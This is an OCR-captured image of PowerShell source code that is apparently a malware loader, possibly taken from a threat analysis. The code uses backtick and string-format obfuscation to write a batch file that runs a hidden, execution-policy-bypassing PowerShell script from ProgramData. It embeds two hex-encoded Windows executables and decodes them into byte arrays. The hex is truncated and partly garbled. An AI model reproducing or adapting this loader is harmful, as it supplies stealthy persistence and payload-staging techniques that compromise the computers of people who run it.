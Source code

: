 ```powershell
  
try {                                                                                                    
${CO`Nt`eNT} = @'
@echo off                              
cmd /c Powershell -noP -W hidden -ep byPass -NONI "C:\ProgramData\Music\Visuals\VsLabsData.ps1"         
'@
}                                                                                                        
catch {}                                                                                                 
                                                                                                         
 ( Get-VariaBlE  A6p).VAluE::("{0}{2}{1}" -f'W','iteAllText','r').Invoke("$d\VsEnhance.bat" , ${CON`TE`Nt})
 
 try {
${CO`Nt`eNT} = @'
try
{

$cake = "4D_5A_90_00_03_00_00_00_04_00_00_00_FF_FF
_00_00_B8_00_00_00_00_00_00_00_40_00_00_00_00_00_00
00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00
00_00_00_00_00_00_00_00_00_00_00_00_80_00_00_00_0E
1F_BA_0E_00_B4_09_CD_21_B8_01_4C_CD_21_54_68_69_73
20_70_72_6F_67_72_61_6D_20_63_61_6E_6E_6F_74_20_62
65_20_72_75_6E_20_69_6E_00_00_00_2E_74_65_78_74_00
00_00_A4_77_00_00_00_20_00_00_00_78_00_00_00_02_00
_00_00_00_00_00_00_00_00_00_00_00_00_00_20_00_00_60
_2E_72_73_72_63_00_00_00_D8_04
_00_00_00_A0_00_00_00_06_00_00_00_7A_00_00_00_00_0
0_00_00_00_00_00_00_00_00_00_40_00_00_40_2E_72_65_6C_
6F_63_00_00_0C_00_00_00_00_C0
_00_00_00_02_00_00_00_80_00_00_00_00_00_00_00_00_00
_00_00_00_00_00_40_00_00_42_00_00_00_00_00_00_00_00
_00_00_00_00_00_00_00_00_80_97_00_00_00_00_00_00_48
_00_00_00_02_00_05_00_2C_4F_00_00_18_48_00_00_01_00
_00_00_14_00_00_06_00_00_00_00_00_00_00_00_00_00_0
0_00_00_00_00_00_00_00_00_00_00 ------This continue...

$oven = "4D_5A_90_00_03_00_00_00_04_00_00_00_FF_FF_00_00_B8_00
_00_00_00_00_00_00_40_00_00_00_00_00_00_00_00_00_00_00
_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00
_00_00_00_00_00_00_80_00_00_00_0E_1F_BA_0E_00_B4_09_CD
_21_B8_01_4C_CD_21_54_68_69
_73_20_70_72_6F_67_72_61_6D_20_63_61_6E_6E_6F_74_20_62
_65_20_72_75_6E_20_69_6E_20_44_4F_53_20_6D_6F_64_65_2E
_0D_0D_0A_24_00_00_00_00_00_00_00_50_45_00_00_4C_01_03
_00_3F_32_26_90_00_00_00_00_00_00_00_00_E0_00_0E_21_0B
_01_30_00_00_22_01_00_00_06_00_00_00_00_00_00 ------This continue...


}catch{}

Sleep 5

try {
[Byte[]] $NKbb = $cake -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }
[Byte[]] $pe = $oven -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }
}catch{}

Sleep 5
```